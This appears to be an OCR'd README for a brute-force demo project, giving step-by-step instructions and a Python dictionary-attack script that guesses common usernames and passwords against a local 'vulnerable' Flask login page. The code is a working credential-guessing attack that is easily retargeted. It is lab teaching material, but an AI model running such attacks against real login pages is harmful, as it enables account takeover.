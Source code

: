 ## 📖 Step-by-Step Attack Guide

### Method 1: Using the Web Brute Force Tool

#### Step 1: Start the Demo Website

```bash
# Terminal 1: Start the vulnerable website
cd demo
python app.py
```

#### Step 2: Run the Brute Force Attack

```bash
# Terminal 2: Run the web brute force tool
cd demo
python brute_force_web.py
```

#### Step 3: Monitor the Attack

1. Open the admin panel: `http://localhost:5000/admin` (login as admin/admin)
2. Watch real-time login attempts
3. Observe successful and failed attempts

### Method 2: Manual Attack with Custom Scripts

#### Step 1: Create Custom Attack Script

```python
#!/usr/bin/env python3
"""
Custom Brute Force Attack Script
"""

from brute_force_web import WebBruteForceAttacker

# Initialize attacker
attacker = WebBruteForceAttacker("http://localhost:5000/login")

# Set rate limiting (be respectful)
attacker.set_rate_limit(0.1)  # 100ms between requests

# Define target credentials
usernames = ['admin', 'user', 'test']
passwords = ['admin', 'password', '123456', 'test']

# Progress callback
def show_progress(attempt, stats):
    if attempt['success']:
        print(f"✓ SUCCESS: {attempt['username']}:{attempt['password']}")
    elif stats['total_attempts'] % 10 == 0:
        print(f"Progress: {stats['total_attempts']} attempts")

attacker.set_progress_callback(show_progress)

# Perform dictionary attack
results = attacker.dictionary_attack(usernames, passwords)

# Display results
print(f"\nFound {len(results)} valid credentials:")
for result in results:
    print(f"  {result['username']}:{result['password']}")
```
